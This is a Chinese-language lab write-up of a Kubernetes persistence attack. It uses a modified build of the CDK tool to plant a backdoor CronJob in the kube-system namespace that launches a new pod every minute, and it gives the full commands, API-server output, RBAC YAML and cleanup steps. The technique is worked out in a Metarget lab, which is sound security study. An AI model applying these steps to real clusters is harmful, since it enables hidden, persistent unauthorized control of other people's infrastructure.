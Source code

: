 # Kubernetes 部署后门 CronJob

## 漏洞描述

Cronjob 是 K8s 集群的一种资源，类似于 Linux 系统中的 cron 任务，可在指定的时间间隔内运行任务，创建一个或多个 Pod 副本。

在集群内获取到一定的权限，需要对当前的权限进行持久化控制时，可利用 K8s Cronjob 资源的特性，创建一个 kube-system 命名空间下的 Cronjob 资源，进行持久化控制。

参考链接：

- https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-cronjob
- https://github.com/cdk-team/CDK/blob/main/test/k8s_exploit_util/cronjob.yaml
- https://github.com/Metarget/metarget

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f k8s_backdoor_cronjob.yaml
```

或直接通过 metarget 启动漏洞环境：

```shell
./metarget cnv install k8s_backdoor_cronjob
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `k8s-backdoor-cronjob` 的 pod：

```
kubectl get pods -n metarget
-----
NAME                   READY   STATUS    RESTARTS   AGE
k8s-backdoor-cronjob   1/1     Running   0          3m56s
```

![](images/Kubernetes%20部署后门%20CronJob/image-20250422135426486.png)

## 漏洞复现

> Kubernetes v1.21 及以上版本，`batch/v1beta1` 已被移除，可以使用 `batch/v1` 代替。

我们使用漏洞利用工具 [CDK](https://github.com/cdk-team/CDK)，将 `pkg/exploit/persistence/k8s_cronjob.go` 中的 `batch/v1beta1` 修改为 `batch/v1`，重新编译得到 `cdk_modified`，将其传入 `k8s-backdoor-cronjob` pod 中：

```
kubectl cp cdk_modified k8s-backdoor-cronjob:/ -n metarget
```

执行以下命令运行工具（该命令会每隔一分钟在 `kubs-system` 命名空间下创建一个 pod 执行指定命令）：

```
kubectl exec -n metarget -it k8s-backdoor-cronjob -- chmod +x /cdk_modified
kubectl exec -n metarget -it k8s-backdoor-cronjob -- /cdk_modified run k8s-cronjob default min ubuntu "touch /tmp/awesome_poc ; sleep 10000"
-----
2025/04/22 06:08:20 getting K8s api-server API addr.
	Find K8s api-server in ENV: https://10.96.0.1:443
2025/04/22 06:08:20 generate cronjob with 
 image:ubuntu
 cmd:touch /tmp/awesome_poc ; sleep 10000
 schedule:min
2025/04/22 06:08:20 requesting  /apis/batch/v1/namespaces/kube-system/cronjobs
2025/04/22 06:08:20 api-server response:
{"kind":"CronJob","apiVersion":"batch/v1","metadata":{"name":"cdk-backdoor-cronjob","namespace":"kube-system","uid":"45aed148-bfd3-4a2a-9593-77db015b74a4","resourceVersion":"15914","generation":1,"creationTimestamp":"2025-04-22T06:08:20Z","managedFields":[{"manager":"Go-http-client","operation":"Update","apiVersion":"batch/v1","time":"2025-04-22T06:08:20Z","fieldsType":"FieldsV1","fieldsV1":{"f:spec":{"f:concurrencyPolicy":{},"f:failedJobsHistoryLimit":{},"f:jobTemplate":{"f:spec":{"f:template":{"f:spec":{"f:containers":{"k:{\"name\":\"cdk-backdoor-cronjob-container\"}":{".":{},"f:args":{},"f:image":{},"f:imagePullPolicy":{},"f:name":{},"f:resources":{},"f:terminationMessagePath":{},"f:terminationMessagePolicy":{}}},"f:dnsPolicy":{},"f:restartPolicy":{},"f:schedulerName":{},"f:securityContext":{},"f:terminationGracePeriodSeconds":{}}}}},"f:schedule":{},"f:successfulJobsHistoryLimit":{},"f:suspend":{}}}}]},"spec":{"schedule":"* * * * *","concurrencyPolicy":"Allow","suspend":false,"jobTemplate":{"metadata":{"creationTimestamp":null},"spec":{"template":{"metadata":{"creationTimestamp":null},"spec":{"containers":[{"name":"cdk-backdoor-cronjob-container","image":"ubuntu","args":["/bin/sh","-c","touch /tmp/awesome_poc ; sleep 10000"],"resources":{},"terminationMessagePath":"/dev/termination-log","terminationMessagePolicy":"File","imagePullPolicy":"IfNotPresent"}],"restartPolicy":"OnFailure","terminationGracePeriodSeconds":30,"dnsPolicy":"ClusterFirst","securityContext":{},"schedulerName":"default-scheduler"}}}},"successfulJobsHistoryLimit":3,"failedJobsHistoryLimit":1},"status":{}}
```

![](images/Kubernetes%20部署后门%20CronJob/image-20250422141541628.png)

验证部署结果：

```
kubectl get cronjobs -n kube-system
-----
NAME                   SCHEDULE    TIMEZONE   SUSPEND   ACTIVE   LAST SCHEDULE   AGE
cdk-backdoor-cronjob   * * * * *   <none>     False     2        7s              107s
```

![](images/Kubernetes%20部署后门%20CronJob/image-20250422141257013.png)

查看通过 cronjobs 在 `kubs-system` 命名空间下的 pod：

```
kubectl get pods -n kube-system
-----
NAME                                  READY   STATUS    RESTARTS       AGE
cdk-backdoor-cronjob-29088369-f9nq5   1/1     Running   0              11m
cdk-backdoor-cronjob-29088370-nl6bg   1/1     Running   0              10m
cdk-backdoor-cronjob-29088371-gzggb   1/1     Running   0              9m22s
...
```

![](images/Kubernetes%20部署后门%20CronJob/image-20250422142314469.png)

## 环境复原

```
kubectl delete cronjob cdk-backdoor-cronjob -n kube-system
kubectl delete -f k8s_backdoor_cronjob.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

[k8s_backdoor_cronjob.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/k8s_backdoor_cronjob.yaml)

```
apiVersion: v1
kind: ServiceAccount
metadata:
  name: k8s-backdoor-cronjob
  namespace: metarget
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: k8s-backdoor-cronjob
rules:
- apiGroups:
  - batch
  resources:
  - cronjobs
  verbs:
  - create
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: k8s-backdoor-cronjob
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: k8s-backdoor-cronjob
subjects:
- kind: ServiceAccount
  name: k8s-backdoor-cronjob
  namespace: metarget
---
apiVersion: v1
kind: Pod
metadata:
  name: k8s-backdoor-cronjob
  namespace: metarget
spec:
  serviceAccountName: k8s-backdoor-cronjob
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```
